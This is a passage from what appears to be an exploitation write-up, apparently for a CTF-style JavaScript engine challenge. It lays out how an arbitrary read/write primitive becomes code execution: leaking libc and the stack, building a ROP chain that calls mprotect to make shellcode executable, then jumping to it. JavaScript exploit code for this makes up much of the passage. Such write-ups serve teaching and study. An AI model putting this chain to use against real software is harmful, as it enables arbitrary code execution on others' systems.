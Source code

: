 Well, we have an unlimited arbitrary read/write primitive, the binary base address, and the address of some data we control on the heap.

I think if I were a mathematician, I’d say we’ve reduced our task to a previously solved one - actually, a very common one. We’re not going to reinvent the wheel, so here’s what we need to do, without a doubt:

1. Leak a `libc` address from the `binary`’s `GOT` using arbitrary read  
2. Leak the `stack` address from `libc`’s `environ` using the same method  
3. Use arbitrary write to place a `ROP-chain` on the `stack`, right where it’ll get executed after our script finishes

But what should this `ROP-chain` actually do?

The simplest solution would be to pop a shell using `system("/bin/sh")`. But if we want to really pwn it, we’ll go one level deeper and execute arbitrary code (`shellcode`). And honestly, in our case, that’s not much harder than popping a shell. Here’s how we can do it:

1. Prepare the `shellcode` and place it in the `victim`’s buffer before we corrupt it  
2. Leak the `shellcode`’s address together with the `binary` base (we’ve already done this by leaking `victim_ab_buf`)  
3. Call `mprotect` on the page containing the `shellcode`, granting it `RWX` permissions from our `ROP-chain`
4. Jump to the `shellcode` at the end of our `ROP-chain`

Now, we easily end up with the following common general method to execute arbitrary code using our primitives and leaks:
```JavaScript
  // Address of read GOT entry
  const read_got = binary + read_got_o;
  loghex(read_got);
  // Leak libc from read GOT entry
  const libc = readq(read_got) - libc_leak_o;
  loghex(libc);
  // Leak stack from libc's environ
  const stack = readq(libc + environ_o);
  loghex(stack);

  // Compute target address for ROP - somewhere before JS script execution in call stack
  const ret   = stack - ret_o;
  let   ropsz = 0x00n;

  // Add 8-byte to ROP
  function p(q)
  {
    writeq(ret + ropsz, q);
    ropsz += 0x08n;
  }

  // ROP
  p(binary + pop_rdi_o);        // rdi -> page of shellcode
  p(victim_ab_buf & (~0xFFFn));
  p(binary + pop_rsi_o);        // rsi -> 0x1000 (size of page)
  p(0x1000n);
  p(binary + pop_rdx_o);        // rdx -> 0b111 (RWX permissions)
  p(0x07n);
  p(binary + mprotect_o);       // call mprotect
  p(victim_ab_buf);             // jump to shellcode

  // finish JS script execution to trigger shellcode
```
